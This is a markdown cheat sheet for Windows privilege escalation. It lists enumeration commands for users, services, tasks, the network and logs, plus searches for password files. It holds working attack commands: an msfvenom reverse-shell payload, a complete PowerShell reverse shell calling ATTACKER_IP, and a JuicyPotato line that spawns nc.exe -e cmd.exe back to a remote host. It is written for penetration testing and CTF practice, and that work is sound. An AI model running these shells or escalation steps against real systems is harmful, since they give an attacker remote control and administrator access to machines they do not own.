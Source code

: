 # Windows Privilege Escalation - Cheat Sheet

{% hint style="warning" %}
Check if target si 32 or 64-bit with systeminfo -> System type

Reverse shell for 32bit is:

```
msfvenom -p windows/shell_reverse_tcp LHOST=<IP> LPORT=<PORT> -a x86 --platform Windows -f exe -o shell.exe
```
{% endhint %}

### 1. System Information

```powershell
systeminfo                      # System info
wmic os get caption,version     # OS version
whoami                          # Current user
whoami /priv                    # Privileges of current user
whoami /groups                  # Group memberships
net users                       # List all users
net user <username>             # User details
net localgroup administrators   # Check admin group members
tasklist /v                     # Running processes
tasklist /svc                   # Processes with services
```

### 2. Searching for Sensitive Files

```powershell
dir /s /b *password* 2>nul       # Find files containing "password"
findstr /si password *.txt       # Search for passwords in text files
dir C:\Users /s /b | findstr /i "password"  # Search for password files in user directories
```

### 3. Permissions and User Privileges

```powershell
net share                       # Shared folders
net user <user>                 # User details
icacls C:\path\to\file        # Check file permissions
```

### 4. Scheduled Tasks & Services

```powershell
schtasks /query /fo LIST /v     # List scheduled tasks
Get-ScheduledTask | fl          # PowerShell alternative
sc query                        # List services
sc qc <service>                 # Check service config
```

### 5. Network & Firewall

```powershell
ipconfig /all                   # Network configuration
netstat -ano                    # Open network connections
route print                      # Routing table
Get-NetFirewallRule              # Firewall rules (PowerShell)
```

### 6. Logs & Event Viewer

```powershell
wevtutil qe Security /c:10 /f:text /rd:true  # Last 10 security logs
Get-EventLog -LogName Security -Newest 10   # PowerShell alternative
```

### 7. Common Service Paths & Registry Keys

```powershell
C:\ProgramData\
C:\Users\Public\
C:\Windows\System32\Tasks\
C:\Windows\System32\config\
C:\Windows\System32\drivers\etc\
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Run
HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System
```

### 8. Reverse Shells

```powershell
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('ATTACKER_IP',ATTACKER_PORT);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"

#SeImpersonatePrivilege -> 32bit
juicypotato32.exe -l 1360 -p c:\windows\system32\cmd.exe -a "/c c:\Temp\nc.exe -e cmd.exe <IP> <PORT>" -t * -c {9B1F122C-2982-4e91-AA8B-E071D54F2A4D}
```

### 9. Exploitation & Enumeration Tools

```powershell
wget https://github.com/peass-ng/PEASS-ng/releases/download/20250301-c97fb02a/winPEASany.exe -OutFile winPEASany.exe
.\winPEASany.exe  # Run WinPEAS
```
